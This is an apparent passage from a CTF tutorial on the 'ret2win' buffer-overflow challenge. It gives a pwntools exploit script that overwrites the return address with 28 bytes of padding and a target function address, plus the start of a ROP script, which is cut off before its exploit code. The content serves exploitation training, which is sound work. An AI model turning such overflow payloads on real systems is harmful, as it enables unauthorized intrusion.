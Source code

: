   ```exploit.py
      exe = './ret2win'
      # This will automatically get context arch, bits, os etc
      elf = context.binary = ELF(exe, checksec=False)
      # Change logging level to help with debugging (error/warning/info/debug)
      context.log_level = 'debug'
      
      # ===========================================================
      #                    EXPLOIT GOES HERE
      # ===========================================================
      
      io = start()
      
      # How many bytes to the instruction pointer (EIP)?
      padding = 28
      
      payload = flat(
          b'A' * 28,
          0x8049182 # elf.functions.hacked  # 0x401142
      )
      
      # Save the payload to file
      write('payload', payload)
      
      # Send the payload
      io.sendlineafter(b':', payload)
      
      # Receive the flag
      io.interactive()
   ```
   
### 7. Here is an automated script that uses ROP (return-oriented-programming)
   ```ropstar.py
      from pwn import *
      
      # Allows you to switch between local/GDB/remote from terminal
      def start(argv=[], *a, **kw):
          if args.GDB:  # Set GDBscript below
              return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
          elif args.REMOTE:  # ('server', 'port')
              return remote(sys.argv[1], sys.argv[2], *a, **kw)
          else:  # Run locally
              return process([exe] + argv, *a, **kw)
      
      # Specify your GDB script here for debugging
      gdbscript = '''
      init-pwndbg
      continue
      '''.format(**locals())
      
      # Set up pwntools for the correct architecture
      exe = './ret2win'
      # This will automatically get context arch, bits, os etc
      elf = context.binary = ELF(exe, checksec=False)
      # Change logging level to help with debugging (error/warning/info/debug)
      context.log_level = 'debug'
      
      # ===========================================================
      #                    EXPLOIT GOES HERE
      # ===========================================================
      
      io = start()
      
   ```